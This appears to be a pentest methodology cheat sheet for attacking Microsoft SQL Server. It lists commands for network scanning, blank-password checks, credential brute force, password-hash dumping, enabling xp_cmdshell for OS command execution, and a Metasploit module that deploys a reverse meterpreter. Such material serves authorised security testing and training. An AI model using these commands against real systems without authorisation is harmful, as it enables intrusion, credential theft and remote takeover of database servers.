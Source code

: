# MSSQL - Methodology

### Network scan

Nmap can be used to scan the network for exposed MSSQL databases:

```
nmap -v -p 1433 -A -oA nmap_smb <RANGE | CIDR>
```

### Service recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The Metasploit mssql_ping module attempts to retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the
nmap nse script *ms-sql-empty-password.nse* can be used to quickly try to
connect using the sa account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The metasploit auxiliary/scanner/mssql/mssql_login module can be used to brute
force credentials for the service. The BLANK_PASSWORDS option is worth setting
to true.  

The patator tool can be used as well to brute force credentials on the service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The sqsh CLI tool can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>
```

The **DBeaver** GUI tool can be used to simply access the database content
without knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the nmap
nse script *ms-sql-dump-hashes.nse* can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
John-the-ripper.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the
account used has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server.
